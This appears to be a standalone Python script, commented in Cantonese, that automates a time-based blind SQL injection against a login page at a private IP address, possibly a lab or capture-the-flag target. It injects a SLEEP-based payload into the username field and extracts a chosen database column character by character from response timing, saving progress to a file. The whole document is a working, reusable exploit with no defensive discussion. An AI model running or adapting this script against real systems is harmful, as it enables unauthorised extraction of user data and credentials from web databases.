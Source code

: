 ***

```python
import requests
import time

url = "http://172.16.16.12/login2.php"  # 目標 URL
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "http://172.16.16.7/login2.php",
    "Cookie": "cookie1=2fda11d3da11d3ba22d6254e9b7f39af5eab21"  # 可自行修改
}

# 泛用 SQL payload 模板
payload_template = ("admin' AND IF(ASCII(SUBSTRING((SELECT {column} FROM {table} LIMIT {row},1)," 
                    "{{position}},1))={{char}}, SLEEP(5), 0)-- -")

column = "user"   # 要爆嘅欄位名
table = "user"    # 要爆嘅表名
row = 0           # LIMIT 從第幾行開始

username = ""  # 儲存結果

# 如果 output.txt 存在，從檔案續爆
try:
    with open("output.txt", "r") as f:
        username = f.read().strip()
        print(f"[+] 從檔案恢復進度: {username}")
except FileNotFoundError:
    pass

for position in range(len(username) + 1, 100):  # 從上次中斷位置繼續
    for char in range(32, 127):  # ASCII 可見字元
        payload = payload_template.format(column=column, table=table, row=row).replace("{position}", str(position)).replace("{char}", str(char))
        data = {"user": payload, "password": "test", "s": "OK"}

        start_time = time.time()
        response = requests.post(url, headers=headers, data=data)
        end_time = time.time()

        if end_time - start_time > 3:  # 如果超過 3 秒表示猜對
            username += chr(char)
            print(f"[+] 找到字元: {chr(char)} at position {position}")

            # 寫入 output.txt 保存進度
            with open("output.txt", "w") as f:
                f.write(username)
            break
    else:
        print("[!] 爆破結束或遇到不可見字元")
        break

print(f"[+] 爆破完成，結果：{username}")

```
